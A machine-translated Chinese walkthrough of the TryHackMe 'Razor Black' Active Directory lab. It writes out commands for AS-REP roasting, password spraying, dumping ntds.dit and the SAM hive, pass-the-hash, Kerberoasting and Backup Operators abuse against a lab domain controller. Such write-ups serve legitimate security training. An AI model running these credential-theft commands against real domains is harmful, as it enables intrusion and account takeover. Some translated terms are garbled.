# 剃刀黑活动目录书面报告

> 原文：<https://infosecwriteups.com/razor-black-active-directory-writeup-3636c53faa4c?source=collection_archive---------1----------------------->

## 这些家伙自称黑客。你能告诉他们谁是老板吗？？


# ✅枚举:

## ➡️·鲁斯坎

让我们从列举开放端口开始，我将一如既往地使用 rustscan，然后我们将运行 NMAP。



## **➡️ Nmap**

现在让我们运行 NMAP 来获得更多的细节。

```
root@kali ~ » nmap -sC -Pn 10.10.247.219 -T 5                                                                                                                                                                      
Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org) ) at 2022-11-07 09:07 EST                                                                                                                                                    
Nmap scan report for 10.10.247.219                                                                                                                                                                                 
Host is up (0.15s latency).                                                                                                                                                                                        
Not shown: 986 closed tcp ports (reset)                                                                                                                                                                            
PORT     STATE SERVICE                                                                                                                                                                                             
53/tcp   open  domain                                                                                                                                                                                              
88/tcp   open  kerberos-sec                                                                                                                                                                                        
111/tcp  open  rpcbind                                                                                                                                                                                             
| rpcinfo:                                                                                                                                                                                                         
|   program version    port/proto  service                                                                                                                                                                         
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                                                                         
|   100000  2,3,4        111/tcp6  rpcbind                                                                                                                                                                         
|   100000  2,3,4        111/udp   rpcbind                                                                                                                                                                         
|   100000  2,3,4        111/udp6  rpcbind                                                                                                                                                                         
|   100003  2,3         2049/udp   nfs                                                                                                                                                                             
|   100003  2,3         2049/udp6  nfs                                                                                                                                                                             
|   100003  2,3,4       2049/tcp   nfs                                                                                                                                                                             
|   100003  2,3,4       2049/tcp6  nfs                                                                                                                                                                             
|   100005  1,2,3       2049/tcp   mountd                                                                                                                                                                          
|   100005  1,2,3       2049/tcp6  mountd                                                                                                                                                                          
|   100005  1,2,3       2049/udp   mountd                                                                                                                                                                          
|   100005  1,2,3       2049/udp6  mountd                                                                                                                                                                          
|   100021  1,2,3,4     2049/tcp   nlockmgr                                                                                                                                                   
|   100021  1,2,3,4     2049/tcp6  nlockmgr                                                                                                                                                   
|   100021  1,2,3,4     2049/udp   nlockmgr                                                                                                                                                   
|   100021  1,2,3,4     2049/udp6  nlockmgr                                                                                                                                                   
|   100024  1           2049/tcp   status                                                                                                                                   
|   100024  1           2049/tcp6  status                                                                                                                                   
|   100024  1           2049/udp   status                                                                                                                                   
|_  100024  1           2049/udp6  status                                                                                                                                   
135/tcp  open  msrpc                                                                                                                                                        
139/tcp  open  netbios-ssn                                                                                                                                                  
389/tcp  open  ldap                                                                                                                                                         
445/tcp  open  microsoft-ds                                                                                                                                                 
464/tcp  open  kpasswd5                                                                                                                                                     
593/tcp  open  http-rpc-epmap                                                                                                                                               
636/tcp  open  ldapssl                                                                                                                                                      
2049/tcp open  mountd                                                                                                                                                       
3268/tcp open  globalcatLDAP                                                                                                                                                
3269/tcp open  globalcatLDAPssl                                                                                                                                             
3389/tcp open  ms-wbt-server                                                                                                                                                
| rdp-ntlm-info:                                                                                                                                                            
|   Target_Name: RAZ0RBLACK                                                                                                                                                 
|   NetBIOS_Domain_Name: RAZ0RBLACK                         
|   NetBIOS_Computer_Name: HAVEN-DC                         
|   DNS_Domain_Name: raz0rblack.thm                                                                                     
|   DNS_Computer_Name: HAVEN-DC.raz0rblack.thm                                                  
|   Product_Version: 10.0.17763                                                                                                          
|_  System_Time: 2022-11-07T14:08:01+00:00                                      
|_ssl-date: 2022-11-07T14:08:00+00:00; +5s from scanner time.                                                           
| ssl-cert: Subject: commonName=HAVEN-DC.raz0rblack.thm                         
| Not valid before: 2022-11-06T13:58:28                                                                                 
|_Not valid after:  2023-05-08T13:58:28                                                         

Host script results:                                                
| smb2-security-mode:                   
|   311:                                                                        
|_    Message signing enabled and required                                                      
| smb2-time:                            
|   date: 2022-11-07T14:08:04           
|_  start_date: N/A                                                             
|_clock-skew: mean: 4s, deviation: 0s, median: 4s                                               

Nmap done: 1 IP address (1 host up) scanned in 41.33 seconds
```

从上面的结果中，我们发现这个域名是:`raz0rblack.thm`

现在在`/etc/host`文件中添加带有各自 IP 地址的域名

## ➡️中小企业枚举

我将从 SMB 开始枚举，因为在那里可能有更多的机会找到有用的东西。

先说 **smbmap :**



我们什么都没有！！

让我们使用另一个工具，如 **smbclient** 来列出股份:



它显示没有可用的工作组

## ➡️ NFS 枚举

从 NMAP 的结果，我们发现端口 2049 是开放的，这是 NFS(网络文件共享)

对于在 NFS 可用的远程共享，我们可以使用 **showmount**



这里的`-e`选项用于导出股票列表。

我们看到我们有`/users`让我们在我们的机器上安装该共享。


```
mkdir /mnt/remote && mount -t nfs 10.10.102.12:/users /mnt/remote
```



这里我们有两个文件，其中一个文件`sbradley.txt` 是 THM 标志，另一个是 Xls 文件。因此，我们需要找到一种方法在 Linux 命令行中查看像 Xls 这样的文档文件。

我们可以像这样使用 python 的能力:

```
import pandas as pd#read the xls file and convert into dataframe objectdf = pd.DataFrame(pd.read_excel("/mnt/remote/employee_status.xlsx"))#show dataframeprint(df)
```



我们有几个用户名，让我们创建一个这些用户的列表


这些就是用户！！让我们首先从一个重播攻击开始

➡️代表烘烤攻击

```
impacket-GetNPUsers raz0rblack.thm/ -usersfile usernames.txt -format hashcat
```



我们为威廉姆提供预订

让我们用 hashcat 来破解它



让我们看看我们是否能邪恶-winrm 但是我们没有得到任何东西。于是，我又开始了枚举过程。让我们再次从中小企业开始。



我们有一些文件夹的读取权限，其中一个文件夹是 IPC$，这意味着我们可以暴力破解 RID 来找到所有用户。

我们可以使用`impacket-lookupsid` impacket 实用程序来强制用户这样做:

```
impacket-lookupsid 'twilliams:roastpotatoes'[@10](http://twitter.com/10).10.115.117
```

我们得到了一些新用户，这在我们之前的用户名列表中是没有的。



将拥有 **SidTypeUser** 的新用户添加到我们的单词列表中。



➡️密码喷涂

现在我们有了一个有效用户的列表和一个密码，这是通过 AS_rep 烘焙得到的。让我们试着喷一下。

为此我们可以使用 crackmapexec。



我们有 **sbradly** 用户，它有**STATUS _ password _ MUST _ CHANGE**

现在，我们可以使用实用程序 **smbpasswd** 来更改 smb 中用户的密码，如下所示:



所以，现在我们已经更改了 sbradley 用户的密码。我再次尝试在机器上运行 evil-winrm，但没有成功。那么，让我们再次开始枚举过程。这一次，我们将使用我们设置的新用户和新密码来枚举共享



正如您现在看到的，我们有了一个新的共享，我们对其具有读取权限。

让我们看看里面有什么。



我们有几个文件，其中我们还有一个文件`sbradley.txt`

里面有史蒂芬的旗帜，我们之前在 NFS 找到的。

现在让我们来看看这个聊天文件:



通过阅读该文件，我们了解到 DC 上存在 zerologon 漏洞，而 sbradley 已经利用了这一漏洞。他已经将 ntds.dit 和 SYSTEM.hive 以 zip 格式转储到垃圾共享中，让我们转储它。

那个文件是**experiment _ gone _ error . zip**

`get experiment_gone_wrong.zip`

```
mkdir /root/Desktop/trash &&  mount -t cifs -o 'username=sbradley,password=password@123' //10.10.84.149/trash /root/Deskt
op/trash
```

转储文件后，我们试图解压缩它，但发现它是密码保护的。



所以，让我们试着用开膛手约翰破解它，但首先，让我们把它转换成开膛手约翰兼容的格式:



现在让我们试着用 rockyou.txt 文件来破解它:



它在几秒钟内破解了密码。现在我们可以获得 ntds.dit 和 system.hive 文件



现在我们可以在 secretdump 的帮助下像这样阅读它:

```
impacket-secretsdump -ntds ntds.dit -system system.hive local > hashes.txt
```

现在我们得到了所有用户的哈希值！！

但是在 CTF 被询问的用户的散列我认为是本地帐户，因为这些帐户散列在上述文件中没有找到。

但是我们有管理员哈希，DC 默认启用 PSRemoting，所以我们可能可以使用 evil-winrm 登录。

出于某种原因，我不知道我甚至不能登录到管理员帐户，可能是不是本地管理员！！

所以，现在我们需要执行一个传递散列攻击。在 tryhackme 上，他们要求提供属于比勒陀利亚用户的 Ljudmila 的散列，我们之前在我们的用户名单词列表中找到了它，但是在我们从 zip 文件创建的转储中没有该用户的名称。

我们可以尝试传递散列。

让我们为从转储中获得的所有散列创建一个适当的列表。

从栈顶输出中删除不必要的东西。而格式 hashs.txt 就像这样:

```
cat hashes.txt | cut -d ":" -f 4 > clean_hash.txt
```

现在让我们使用 crackmapexec 来传递散列

```
crackmapexec smb <ip> -u lvetrova -H clean_hash.txt
```



如你所见，我们得到了 lvetrova 用户的正确哈希值。

现在，我们将再次尝试使用 evil-winrm 使用 hash 登录:



如你所见，我们成功地使用了 evil-winrm。在本地搜索时，我们发现桌面上没有标志，但在用户目录中，我们发现了一个文件 lvetrova.xml。该文件包含一些加密的密码。在谷歌上，我找到了一种解密的方法。



因此，我们将用来解密该 XML 文件的命令应该是:

```
$credential = Import-Clixml -Path lvetrova.xml
$credential.GetNetworkCredential().password
```



我们得到了那个用户的标志！！！

现在我们有了一个有效的凭证，我们可以枚举主机的权限提升漏洞，或者进行 kerbroasting。



我们有一个可以执行 Kerberos 认证的用户

让我们申请票。



而且我们拿到了 xyna1d3 用户的门票！！

让我们试着破解它:

```
hashcat.exe -m 13100 <ticket_hash> -O
```



我们得到了那个用户的密码！！

让我们试着用这个密码得到一个邪恶的 winrm 外壳。



我们有权限

同样，我们为该用户获得了一个 XML 文件，它以加密的方式保存了标志！！

让我们像前面一样破解它们:

```
$credential = Import-Clixml -Path lvetrova.xml
$credential.GetNetworkCredential().password
```



现在我们只剩下根标志，这意味着我们可能必须在机器上找到一个特权漏洞。

首先，我尝试上传 winpeas 来查找 privesc 向量。但是发现系统 PowerShell 上运行了一个反病毒/AMSI(反恶意软件服务接口)，所以我无法运行该脚本。

所以，我试着看看我拥有的所有特权

`whoami /all`

我发现了一些有趣的事情:



因为备份操作员对任何文件都有完全读取权限，这也绕过了管理员设置的 ACL。

我们可以像这样简单地从注册表中下载 SAM 和系统文件:

`reg save hklm\sam C:\Temp\sam`

`reg save hklm\system C:\Temp\system`



在转储这两个文件之后，我们可以使用 impacket 的 secretdump 来转储文件的哈希。



同样，就像其他标志一样，我们有 root.xml 文件，标志是安全的字符串格式

```
$credential = Import-Clixml -Path lvetrova.xml
```

但是这次我们出错了！！数据无效，让我们检查一下文件



现在，让我们试着在 cyberchef 中输入密码数据，看看真正的内容是什么！！



我们现在拿到了最后一面旗帜！！！！

现在，为了找到泰森标志，我们移动到他的目录 twilliams，在那里我们找到一个有线 Exe 文件，我第一次试图运行它，但它不运行，所以我然后试图检查该文件的内容



我们为那个用户做标记。

现在我们需要找到最高机密，所以在列举了一会儿之后，我运行以下命令:



这给了我这个图像文件的链接，我下载了它，它是这样的:


所以，你知道剩下的答案！！！

我们完成了挑战！！！


谢谢你看我的文章！！👊👊

请在媒体和其他社交平台上关注我，支持我:

[https://surya-dev.medium.com/](https://surya-dev.medium.com/)

[https://twitter.com/kryolite_secure](https://twitter.com/kryolite_secure)/

https://[www.instagram.com/kryolite_security/](http://www.instagram.com/kryolite_security/)

[https://github.com/surya-dev-singh/](https://github.com/surya-dev-singh/)

你们可以订阅我🙌在 YouTube 上:**我在那里发布演练和其他道德黑客相关的视频。**

[](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) [## Kryolite 安全公司

### 你好世界！在 Kryolite Security 上，你可以找到关于道德黑客、网络安全、渗透测试、CTFs 的视频…

www.youtube.com](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) [](https://systemweakness.com/dark-web-introduction-8d965a8e68e2) [## 黑暗之网游戏攻略

### 这将是黑暗网络纪录片系列的第一篇博客

systemweakness.com](https://systemweakness.com/dark-web-introduction-8d965a8e68e2) [](https://systemweakness.com/nmap-the-complete-guide-part-1-4f6464c94edd) [## Nmap —完整指南[第 1 部分]

### Nmap 侦察—完整指南

systemweakness.com](https://systemweakness.com/nmap-the-complete-guide-part-1-4f6464c94edd) [](https://systemweakness.com/steel-mountain-tryhackme-ab22711fe3c7) [## 钢铁山[TryHackMe]

### 黑进一台机器人先生主题的 Windows 机器。使用 Metasploit 进行初始访问，利用 PowerShell for Windows…

systemweakness.com](https://systemweakness.com/steel-mountain-tryhackme-ab22711fe3c7) [](https://systemweakness.com/dirty-pipe-cve-2022-0847-tryhackme-7a652910596b) [## 脏管道:CVE-2022–0847

### 利用 Linux 内核中的脏管道(CVE-2022–0847)的交互式实验室的 tryhackme 演练

systemweakness.com](https://systemweakness.com/dirty-pipe-cve-2022-0847-tryhackme-7a652910596b) 

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！